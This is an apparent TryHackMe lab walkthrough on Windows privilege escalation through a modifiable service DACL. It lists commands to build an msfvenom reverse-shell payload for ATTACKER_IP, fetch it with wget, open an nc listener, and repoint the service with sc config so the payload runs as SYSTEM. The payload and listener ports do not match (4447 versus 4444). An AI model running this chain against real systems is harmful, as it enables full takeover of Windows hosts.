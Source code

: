 Even if the service's executable is secure and properly quoted, ***you can still exploit it if the service DACL lets you modify its configuration***. This allows you to ***point the service to any executable*** and run it as SYSTEM.

**Use `Accesschk` tool from `Sysinternal` suite to check for the Service DACL**
```
accesschk64.exe -qlc thmservice
```
- `SERVICE_ALL_ACCESS:` Users with this access can reconfigure the service.

**Create a Payload**
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe
```

**Setup a Listener**
```
nc -nvlp 4444
```

**Transfer the Executable to Victim**
```
# Attacker
python3 -m http.server

# Victim
wget http://ATTACKER_IP:8000/rev-svc3.exe -O rev-svc3.exe
```

**Grant Permission to Everyone to Execute the Payload**
```
icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
```

**Change the Service's associated Executable and Account**
```
sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
```

**Restart the Service**
```
sc stop THMService 
sc start THMService
```